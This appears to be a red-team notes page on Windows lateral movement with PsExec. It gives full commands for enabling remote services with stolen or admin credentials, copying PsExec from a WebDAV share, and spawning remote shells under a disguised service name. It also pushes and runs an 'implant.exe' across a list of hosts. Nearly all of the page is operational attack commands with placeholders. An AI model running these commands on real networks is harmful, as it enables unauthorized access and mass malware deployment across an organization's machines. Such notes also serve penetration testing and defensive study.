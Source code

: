 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - lateral-movement
  - living-off-the-land
  - psexec
  - network-protocols
  - smb
  - windows
---
```

# Living off the Land

## 01 - Conditions

It requires specific services to be enabled in order for PsExec to work. Here are the commands to enable it.

```
C:\> net.exe use \\<IP>\IPC$ /user:<username> <password>
sc.exe \\<IP> config netdde start= auto
sc.exe \\<IP> config netddedsdm start= auto
sc.exe \\<IP> config clipsrv start= auto
sc.exe \\<IP> start netdde
sc.exe \\<IP> start netddedsdm
sc.exe \\<IP> start clipserv
```

## 02 - Sysinternals

### 2.1 - Copy File from WebDAV

#### 2.1.1 - Command Prompt

```
C:\> net.exe use z: \\live.sysinternals.com\tools

C:\> copy z:\PsExec64.exe .

C:\> net.exe use z: /delete
```

#### 2.1.2 - PowerShell

```
PS C:\> New-PSDrive -Name Z -PSProvider FileSystem -Root "\\live.sysinternals.com\tools"

PS C:\> Copy-Item z:\PsExec64.exe .

PS C:\> Remove-PSDrive -Name Z
```

## 03 - Execute PsExec

### 3.1 - Single Machine

```
C:\> .\PsExec64.exe \\<IP> -u <domain>\<username> -p <password> -nobanner -r "A legit service name" cmd.exe

C:\> .\PsExec64.exe \\<IP> -u <domain>\<username> -p <password> -nobanner -r "A legit service name" -d -c "C:\path\to\shell.exe"

C:\> .\PsExec64.exe \\<IP> -u <domain>\<username> -p <password> -nobanner -d -c "C:\path\to\shell.exe"
```

### 3.2 - Multiple Machines

When targeting multiple computers just add the `@` sign.

```
C:\> .\PsExec64.exe @hosts.txt -u <domain>\<username> -p <password> "<commands>"
```

## 04 - Use Cases

### 4.1 - Copy and Execute Implant in Multiple Machines

> [!NOTE] One administrator user account have access to all or most machines
> Use an `Administrator` user or any domain admin account that has access to all or most Windows machines.

```
C:\> .\PsExec64.exe @hosts.txt -u <domain>\<username> -p <password> cmd.exe /c copy /y "\\<IP>\C$\implant.exe" "C:\Windows\Temp\"

.\PsExec64.exe @hosts.txt -u <domain>\<username> -p <password> -d -c "cmd.exe /c C:\Windows\Temp\implant.exe"
```

---
## References

- [Infinite Logins: Popping Remote Shells with Winexe & PTH-Winexe on Windows](https://infinitelogins.com/2020/09/05/popping-remote-shells-pth-winexe-on-windows/)

- [Abusing Windows Admin Shares (Lateral Movement)](https://www.youtube.com/watch?v=41MUhlHGZ4E)

- [harmj0y: Pass the Hash is Dead Long Live Pass the Hash](https://blog.harmj0y.net/penetesting/pass-the-hash-is-dead-long-live-pass-the-hash/)